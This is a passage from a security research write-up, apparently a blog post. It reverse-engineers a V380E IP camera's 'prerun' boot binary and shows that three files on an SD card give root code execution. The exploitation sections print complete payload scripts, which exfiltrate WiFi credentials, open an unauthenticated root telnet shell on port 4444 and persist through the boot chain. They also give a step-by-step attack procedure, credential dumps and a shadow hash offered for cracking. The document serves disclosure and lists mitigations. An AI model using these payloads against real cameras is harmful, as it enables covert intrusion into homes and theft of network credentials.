The full boot chain:

```
/etc/inittab
  → /etc/init.d/rcS          (sysinit)
    → /etc/init.d/rc.local
      → /mnt/mtd/vg_boot.sh
        → /tmp/prerun
```

The conclusion of the above analysis is that `prerun` runs on every single boot, before the main camera application starts. Now knowing that, it was time to understand exactly what it was doing.

---

## 6. Reversing `prerun`

To understand the logic underpinning `prerun`, it was loaded and decompiled in Ghidra. After instructing Ghidra to perform all available forms of analysis, I was dropped into the `main` function. The first thing visible was a series of `IFCReadIntOnce` calls reading config values from the JFFS2 partition — speaker presence, speech language — followed by the execution of a shell script placed on the SD Card as system (root).

> It is worth noting that best practice when compiling software is to remove references to functional logic to make reverse engineering difficult. In this case, this was not done, as noted throughout this section.


### 6.1 Main function

Scrolling through the `main` function of prerun, the high-level conditional logic flow became clear. There's a `system()` call on line 134 that executes the contents of a shell script placed on the SD card with zero validation. Now I needed to work out the full set of conditions that had to be satisfied to reach the shell script execution (which is outlined below).

### 6.1.1 Main function - key conditional logic

The key logic in  the `main` function, with the required outcome to achieve the execution of auth_exshell.sh (for each condition) is outlined as following screenshot and code snippets below.

Each of these snippets are broken down in greater detail throughout this section.


Lines 26 and 27 - **mount_sd_check_read** - simply checks to see whether the SD card is already mounted and if not, attempts to mount it on the main partition and failing that mounts the SD card on the raw block device.

This code snippet is broken down in **Section 6.2**

```c

    // MUST return 0 — mounts the SD card, fails if no card is present
    // broken down in section 6.2 mount_sd_check_read
    local_14 = mount_sd_check_read();
    if (local_14 == 0)
```


Lines 28 and 29 - **/mnt/sdcard/mvsound** - simply checks for the presence of this file on the mounted sd card. Because we want to trigger the else statement on line 29, this file can be left off the card.

This code snippet is broken down in **Section 6.3**

```c  
    {
    // sound file update path — skipped by not having mvsound/ on the card
    local_14 = access("/mnt/sdcard/mvsound", 0);
    if ((local_14 == 0) && (local_10 = was_sf_patch_had_already_used(0), local_10 == 0)) {
      ...
    }
```

lines 85 and 88 - **/mnt/sdcard/dev_recover** - simply checks for the presence of this file on the mounted sd card. Because we want to trigger the else statement in the main function, this file can be left off the card.

This code snippet is broken down in **Section 6.4**

```c
    // MUST return non-zero — dev_recover must NOT exist on the card
    local_14 = access("/mnt/sdcard/dev_recover", 0);
    if (local_14 == 0) {
      local_updater(2);     // factory recovery — not our path
    }
``` 

lines 90 and 91 - **/mnt/sdcard/local_update.conf** simply checks for the presence of this file on the mounted sd card. Because we want the if statement on line 91 to be true, we place this file on the card.

This file isn't touched again in the main function so for our purposes, it simply needs to exist.

This code snippet is broken down in **Section 6.5**

```c
    else {
      // MUST return 0 — this file must exist on the card (can be empty)
      local_14 = access("/mnt/sdcard/local_update.conf", 0);
      if (local_14 == 0) 
``` 

lines 92 and 94 - **was_update_patch_had_already_used** - reads the `[PATCH]` `last_id` value from `mnt/sdcard/update_record` file.

If the value it reads matches the value saved in `[NETINFO]` `DEVID` from the file `/mnt/mtd/network_Info.ini` on the JFFS2 partition, this condition will be satisfied and a non-zero value is returned, pushing us into the else condition for the if statement on line 93.

This code snippet is broken down in **Section 6.6**

```c
      {
        // MUST return non-zero — no valid patch on card means this returns 1
        local_c = was_update_patch_had_already_used(0);
        if (local_c == 0) {
          local_updater(1);   // normal firmware update — not our path
          ...
        }
``` 

lines 132 and 134 - **/mnt/sdcard/auth_exshell.sh** - Finally, this section checks for the presence of the file `/mnt/sdcard/auth_exshell.sh` and if found, runs it as system.

This code snippet is the backdoor left on the camera by the vendors.

This code snippet is broken down in **Section 6.7**

```c
        else {
          // *** Must return 0 - this file must exist on the card - it contains the commands to inject***
          local_14 = access("/mnt/sdcard/auth_exshell.sh", 0);
          if (local_14 == 0) {
            system("/mnt/sdcard/auth_exshell.sh");   // executed as root, no validation
          }
        }
      }
    }
  }
  ...
}
```

This high level discussion of the logic required to reach the shell script execution as system is discussed in more depth in the following sections.

### 6.2 mount_sd_check_read

The first gate is SD card detection on line `26` of the `main` function:


The logic within this function is explained as follows:


```c
undefined4 mount_sd_check_read(void)
{
  iVar1 = access("/mnt/sdcard", 2);
  if (iVar1 == 0) {
    local_c = 0;   // 1. SD card already mounted and writable — done
  }
  else {
    iVar1 = access("/dev/mmcblk0p1", 0);
    if (iVar1 == 0) {
      system("mount -o rw /dev/mmcblk0p1 /mnt/sdcard");
      iVar1 = access("/mnt/sdcard", 2);
      local_c = (iVar1 == 0) ? 0 : 0xffffffff;   // 2. try to mount the SD card on partition 1 of the flash
    }
    else {
      iVar1 = access("/dev/mmcblk0", 0);
      if (iVar1 == 0) {
        system("mount -o rw /dev/mmcblk0 /mnt/sdcard");
        iVar1 = access("/mnt/sdcard", 2);
        local_c = (iVar1 == 0) ? 0 : 0xffffffff;   // 3. try to mount the SD card on the raw block device of the flash
      else {
        local_c = 0xffffffff;   // no card found
      }
    }
  }
  return local_c;   // 0 = success, 0xffffffff = fail
}
```

This snippet makes it clear that three paths are attempted in order: (1.) check to see if the SD card is already mounted, (2.) mount it on the partition device of the flash, (3.) mount it on the raw block device of the flash. In the event that any of these three conditions are satisfied, the function returns `0` and we can progress onto the next conditional statement. 

> Note - Essentially, all that is required is for an SD card to be inserted with a valid partition format, which is satisfied trivially.

### 6.3 File - /mnt/sdcard/mvsound

Next the main function performs two conditional checks on line 29. One to check the presence of the file `/mnt/sdcard/mvsound` and another to run `was_sf_patch_had_already_used` and check what it returns in a conditional statement.

As noted on line 29 of the main function, we only need one of these to return false and we can jump to the next statement in main function snippet, highlighted at the start of Section 6.1.


To do this, we neglect to place `/mnt/sdcard/mvsound` on the SD card, resulting in the `if statement` on line 29 returning false and the main function jumping to line 85.

### 6.4 File - /mnt/sdcard/dev_recover

Next, on line 85 and 86 of the main function a conditional check is run to see if a file called `/mnt/sdcard/dev_recover` exists on the SD Card:


Again, we neglect to place this file on the SD card (`/mnt/sdcard/dev_recover`), which results in the `if statement` on line 86 returning a non-zero result, causing main to jump to the `else statement` on line 89.

### 6.5 File - /mnt/sdcard/local_update.conf

Next, the conditional check on line 90 of the main function looks for the presence of `/mnt/sdcard/local_update.conf` (1.).

If present, the `if statement` on line 91 returns 0, causing main to move on to the final hurdle, being `was_update_patch_had_already_used` (2.).


If we are able to get `was_update_patch_had_already_used` (on line 92 of main) to return a non-zero number, our shell script in `/mnt/sdcard/auth_exshell.sh` is run as system (3.)

### 6.6 was_update_patch_had_already_used

The screenshot below outlines the three pieces that underpin the `was_update_patch_had_already_used` function:


The decompiled output of `was_update_patch_had_already_used` (which is the function that actually gates `auth_exshell.sh`), is shown below, with comments explaining what's required to get the function to return a non-zero value:

```c
undefined4 was_update_patch_had_already_used(int param_1)
  if (param_1 == 0) {
    local_50 = local_48;
    local_4c = 0x20;
    IFCReadStringOnce("/mnt/sdcard/update_record","[PATCH]","last_id",&local_50,"");   // 1. read last_id from [PATCH] in /mnt/sdcard/update_record — empty or absent → return 0
    local_50 = (char *)&local_28;
    local_4c = 0x20;
    IFCReadStringOnce("/mnt/mtd/network_Info.ini","[NETINFO]","DEV_ID",&local_50,"");   // 2. read DEV_ID from camera's internal config - /mnt/mtd/network_Info.ini — which must start with '3'
    if ((char)local_28 == '3') {
      iVar1 = strcmp((char *)&local_28,local_48);
      if (iVar1 == 0) {
        uVar2 = 1;   // 3. last_id matches DEV_ID → return 1 → routes to system(auth_exshell.sh)
      }
      else {
        uVar2 = 0;   // no match → return 0 → local_updater(1) runs in main()
      }
    }
    else {
      uVar2 = 0;
    }
  }
```


The `DEV_ID` read at step 2. (in the code snippet above) is stored in `/mnt/mtd/network_Info.ini` on the camera's JFFS2 partition:

```ini
[NETINFO]
MAC=00:e0:7c:a3:f1:2b
IP=192.168.1.101
...
DEV_ID=37744053   ← compared against last_id in update_record
```

The `DEV_ID` value can also be obtained without reading the camera's firmware in the following two ways: 

1. When the camera is in AP Broadcast (configuration) mode, it advertises a WiFi network with the SSID containing this number: `MV37744053`.
2. The device comes with a sticker and QR code with this number on the base of the camera.

For `was_update_patch_had_already_used(0)` to return non-zero and route execution to `auth_exshell.sh`, the function must conclude that the patch was already applied. It does this by reading `last_id` from `[PATCH]` in `/mnt/sdcard/update_record` and comparing it against the camera's `DEV_ID` from `/mnt/mtd/network_Info.ini`. If they match, it returns 1, routing to line 131 of the main function.

Based on this analysis, the contents of `/mnt/sdcard/update_record` for this camera is:

```ini
; /mnt/sdcard/update_record
[PATCH]
last_id=37744053
```


We now know every step required to satisfy all of the logic described in section 6.1 (the key conditional logic that needs to be satisfied in the code snippet of main), leading to the backdoor code in `/mnt/sdcard/auth_exshell.sh` (line 134) being executed as system.

### 6.7 Additional Notes

For those interested, the function used to read ini files (referenced throughout main), `IFCReadStringOnce`, is listed below:
<details markdown="1">

<summary>IFCReadStringOnce</summary>


</details>

---

## 7. Triggering the Backdoor

With the conditional logic mapped out, the full set of requirements to reach `system(auth_exshell.sh)` and achieve unauthenticated code execution as root is:

| Condition | Required State |
|-----------|----------------|
| SD card inserted and mountable | must be present and contain a readable partition |
| `/mnt/sdcard/dev_recover` | must **not** exist |
| `/mnt/sdcard/local_update.conf` | must exist (can be empty) |
| `/mnt/sdcard/update_record` | must exist with `[PATCH]` `last_id` matching the camera's `DEV_ID` |
| `/mnt/sdcard/auth_exshell.sh` | must exist — contains commands to run as root |

Three files. That's all that is required to achieve root access!

**`/mnt/sdcard/local_update.conf`** — empty, just needs to exist.

**`/mnt/sdcard/update_record`** — tells `prerun` the firmware patch was already applied, bypassing `local_updater` and routing execution to `auth_exshell.sh`. The `DEV_ID` is the digits after `MV` in the camera's AP name:
```ini
[PATCH]
last_id=37744053
```

**`/mnt/sdcard/auth_exshell.sh`** — the payload:
```sh
#!/bin/sh
cp /mnt/mtd/mvconf/wifi.ini /mnt/sdcard/wifi_exfil.ini
telnetd -l /bin/sh -p 4444 &
```

The payload that I chose (that exists inside `/mnt/sdcard/auth_exshell.sh` on the SD card)  performs two functions:
1. Exfiltrates the WiFi credentials for the network the camera is connected to and saves them to `/mnt/sdcard/wifi_exfil.ini`
2. Opens an unauthenticated root telnet listener on port `4444`.

On boot, `prerun` finds `local_update.conf`, then calls `was_update_patch_had_already_used(0)`. It reads `last_id` from `update_record` under `[PATCH]`, compares it to the camera's own `DEV_ID`, finds a match, and returns 1, resulting in it concluding the patch was already applied. This falls into the `else` branch where `auth_exshell.sh` is passed directly to `system()` and is running as root, with no integrity check, no signature verification.

What's particularly notable here is that the function responsible for routing execution into the script is literally named after the file it executes. This was not an oversight in the update logic but rather the `prerun` binary being designed this way.

---

## 8. Exploitation

With the SD Card setup as defined in section 7, the SD card is inserted into the camera and it is powered on.

As the camera boots, it detonates the payload on the SD card, exfiltrates the WiFi credentials (for the network the camera is connected to) and opens an unauthenticated telnet listener on port `4444`.

After the exploit shell is run, the SD card was removed from the camera and connected back to the linux host and the network credentials read, as noted below: 


When on the same network as the camera (connected to using the extracted credentials), the following command can be used to connect to it:


SUCCESS! We now have unauthenticated root access to the camera.

### 8.1 Persistence

The initial `telnetd` started by `auth_exshell.sh` only survives for the current boot. To survive SD card removal and every subsequent reboot, the backdoor must be written into the camera's writable JFFS2 partition at `/mnt/mtd`.

The approach taken was to write a dedicated script to the JFFS2 partition and hook it into both `nvipcstart.sh` and `vg_boot.sh`. Since both scripts live on JFFS2, the modifications persist across power cycles. The `grep -q` guard prevents duplicate entries if the payload is run more than once, and `sync` ensures the JFFS2 journal is flushed to flash before the device finishes booting.

The updated `auth_exshell.sh` payload:

```sh
#!/bin/sh

# Exfiltrate WiFi credentials
cp /mnt/mtd/mvconf/wifi.ini /mnt/sdcard/wifi_exfil.ini

# Write dedicated persistence script to JFFS2
cat > /mnt/mtd/persist.sh << 'EOF'
#!/bin/sh
telnetd -l /bin/sh -p 4444 &
EOF
chmod +x /mnt/mtd/persist.sh

# Hook into boot chain — add to nvipcstart.sh and vg_boot.sh as redundancy
grep -q 'persist.sh' /mnt/mtd/nvipcstart.sh || echo '/mnt/mtd/persist.sh' >> /mnt/mtd/nvipcstart.sh
grep -q 'persist.sh' /mnt/mtd/vg_boot.sh || echo '/mnt/mtd/persist.sh' >> /mnt/mtd/vg_boot.sh

# Flush all JFFS2 writes to flash before power cycle
sync

# Start backdoor immediately for this boot
telnetd -l /bin/sh -p 4444 &
```

After one SD card insertion and reboot, the SD card can be permanently removed. Port `4444` opens on every subsequent boot via the patched boot chain, with no further SD card interaction required.

## 9. The Full Attack Summary

Finally, the complete attack scenario from zero to persistent network access was completed, with no special tools, no soldering, no firmware modification required.

**`local_update.conf`** on the SD card — empty, just needs to exist.

**`update_record`** on the SD card — bypasses the update check by telling `prerun` the patch was already applied. Replace `37744053` with the digits after `MV` in the camera's AP name (or sticker on its base):
```ini
[PATCH]
last_id=37744053
```

**`auth_exshell.sh`** on the SD card:
```sh
#!/bin/sh

# Exfiltrate WiFi credentials
cp /mnt/mtd/mvconf/wifi.ini /mnt/sdcard/wifi_exfil.ini

# Audio confirmation — camera announces "system starting" when exploit fires
/mnt/mtd/audiofile_player /mnt/mtd/mvsound/sf_sysstarting_cn.wav 1

# Write dedicated persistence script to JFFS2
cat > /mnt/mtd/persist.sh << 'EOF'
#!/bin/sh
telnetd -l /bin/sh -p 4444 &
EOF
chmod +x /mnt/mtd/persist.sh

# Hook into boot chain — add to nvipcstart.sh and vg_boot.sh as redundancy
grep -q 'persist.sh' /mnt/mtd/nvipcstart.sh || echo '/mnt/mtd/persist.sh' >> /mnt/mtd/nvipcstart.sh
grep -q 'persist.sh' /mnt/mtd/vg_boot.sh || echo '/mnt/mtd/persist.sh' >> /mnt/mtd/vg_boot.sh

# Flush all JFFS2 writes to flash before power cycle
sync

# Start backdoor immediately for this boot
telnetd -l /bin/sh -p 4444 &
```

1. **Physical access** — insert SD card with `local_update.conf` (empty), `update_record` (DEV_ID from the camera's AP name or sticker on its base), and `auth_exshell.sh`
2. **Reboot** — power cycle the camera; `prerun` executes `auth_exshell.sh` as root, the camera audibly announces "system starting" to confirm execution, WiFi credentials are written to the card, and `persist.sh` is written to JFFS2
3. **Remove card** — read `wifi_exfil.ini` from the SD card for the WiFi password in plaintext
4. **Join the network** — connect to the victim's WiFi
5. **Connect to backdoor** — `telnet <camera-ip> 4444` — root shell, no password
6. **Persistence confirmed** — remove the SD card and reboot; port `4444` opens on every subsequent boot via the patched JFFS2 boot chain

A few seconds of physical access, a blank SD card, and three text files. The camera silently exfiltrates its own WiFi credentials and installs a permanent root backdoor that survives indefinitely without the SD card.


The following sections detail the live enumeration performed once root access was gained.

---

## 10. Post-Exploitation

The following section details some interesting findings from live system enumeration, post exploitation.

### 10.1 Flash Layout

```bash
mount
```


```
mtd0: 8.0MB  "spi0.0"  — full flash
mtd1: 1.9MB  "A"       — kernel (zImage)
mtd2: 1.0MB  "B"       — squashfs (usr)
mtd3: 1.25MB "C"       — squashfs (mvs — camera apps)
mtd4: 384KB  "D"       — squashfs (ext)
mtd5: 1.1MB  "E"       — JFFS2, mounted at /mnt/mtd (config + prerun)
```

### 10.2 System Info enumeration


```sh
telnet <camera-ip> 4444
id
uname -a
cat /proc/cpuinfo
free
```


| Field | Value |
|-------|-------|
| Hostname | V380E |
| Kernel | Linux 3.4.35 |
| Kernel build | `chubby@chubby-VirtualBox`, Fri May 6 16:07:04 HKT 2016 |
| Architecture | ARM926EJ-S rev 5 (ARMv5TEJ) |
| SoC | Anyka AK3918E |
| RAM | 39MB total, ~4.4MB free |
| Privilege | Every process runs as uid=0 — no privilege separation of any kind |

The kernel was built by `chubby@chubby-VirtualBox`. A decade out of date with no patches applied and according to the V380 app, with this being the latest firmware version for this camera.

**Firmware versions:**

```sh
cat /mnt/mtd/mvconf/version.ini
```


| Component | Version | Date |
|-----------|---------|------|
| App | AppV380E2_PTZ_V0.0.0.0 | 2016-07-25 |
| Kernel | KerV380E2_PTZ_V2.1.0 | 2016-05-06 |
| Hardware | HwV380E2_WF1_PTZ | 2016-02-17 |
| Base | AppV380E2_PTZ_V2.0.2.5 | 2016-07-25 |

### 10.3 Credentials

The credential situation across the device was worth documenting in full, as everything is in clear text:

**WiFi** (`/mnt/mtd/mvconf/wifi.ini`) — plaintext credentials for the WiFi network the camera is connected to:

```sh
cat /mnt/mtd/mvconf/wifi.ini
```


> Note - The camera was reset before the output depicted below was taken for privacy reasons.

```ini
[STATION]
stationssid=network
stationpwd=REDACTED
```

**Camera app login** (`/mnt/mtd/mvconf/user_info.ini`) — base64, not hashed:
```
Username: Rk7mT9pBs3
Password: e7b2c4a918d3f065   (decoded from ZTdiMmM0YTkxOGQzZjA2NQ==)
```


**DDNS / cloud service** (`/mnt/mtd/DDNSClient.ini`):
```
Domain:   37744053.nvdvr.net
UserPwd:  8888
UserID:   180236225419284
```


**Port 23 telnet** — authenticated, SHA-256 hash with salt `macro-video`:

```
$5$macro-video$Kj8vR2pTsQ4wHnYbNvCdEaFgUiLo3nMzWyV7c1KlAp8
```

The above hash was obtained by running the following command: 

```bash
cat /etc/shadow
```


I'm leaving this hash here for anyone with the smarts to crack it. 

### 10.4 Open Ports

```sh
netstat -tulpn
```


| Port | Process | Notes |
|------|---------|-------|
| 23 | `telnetd` | Authenticated |
| 554 | `recorder` | RTSP stream |
| 4444 | `telnetd -l /bin/sh` | Unauthenticated root shell — SD card payload |
| 5040 | `as9nvserver` | Management / config protocol |
| 5050 | `as9nvserver` | Video stream |
| 5051 | `as9nvserver` | Video assist |
| 7050 | `as9nvserver` | Verify port |
| 8800 | `recorder` | Mobile client |
| 8899 | `recorder` | — |
| 50000 | `hu_checker` | Localhost only — update checker IPC |

### 10.5 Boot Sequence

Further discovery on the camera revealed the full boot sequence in the `nvipcstart.sh` script:

<details markdown="1">
<summary>nvipcstart.sh — full startup script</summary>

```sh
hostname V380E
echo 3548 > /proc/sys/vm/min_free_kbytes
hwclock -s
/mvs/apps/hu_updater           # check for OTA update
/mnt/mtd/idcheck.sh            # validate DEV_ID matches DDNS domain
telnetd &                      # authenticated telnet on port 23
/mvs/apps/hwwtd 3 &            # hardware watchdog
/mvs/apps/udp_broadcast &      # device discovery
/mvs/apps/vsipbroadcast &      # VSIP protocol broadcast
/mvs/apps/as9nvserver &        # network video server
/mvs/apps/as9updatednsip &     # DDNS updater
/mvs/apps/recorder &           # main camera app (RTSP, recording)
/mvs/apps/hu_checker &         # OTA update checker
/mvs/apps/as9ipcwatchdog &     # process watchdog
```

</details>

---

## 11. Summary

| Stage | Detail |
|-------|--------|
| Entry vector | SD card — three files, no special tools required |
| Trigger | `prerun` binary, runs at every boot before camera application |
| Execution | `system("/mnt/sdcard/auth_exshell.sh")` — root, no integrity check |
| WiFi creds | Plaintext in `/mnt/mtd/mvconf/wifi.ini` |
| App password | Base64-encoded (not hashed) in `/mnt/mtd/mvconf/user_info.ini` |
| DDNS | Device publicly reachable via `<DEV_ID>.nvdvr.net`, cloud password `8888` |

## 12. Appendix 

## 12.1 Pending Concerns

1. The camera reports as being on the latest firmware despite the codebase dating to 2016.
2. A newer version of the same camera family purchased in 2026 is also believed to be vulnerable — stay tuned for part two.

## 12.2 Mitigations

| Finding | Fix |
|---------|-----|
| `auth_exshell.sh` executed without validation | Verify script signature before execution; remove the SD card execution path entirely |
| WiFi credentials stored in plaintext | Encrypt credential storage |
| App password base64-encoded | Use proper password hashing (bcrypt / argon2) |
| DDNS cloud password `8888` | Require per-device unique credentials |
| Linux 3.4.35 (2016, EOL) | Update kernel or replace with a supported platform |
| All processes run as root | Apply privilege separation |
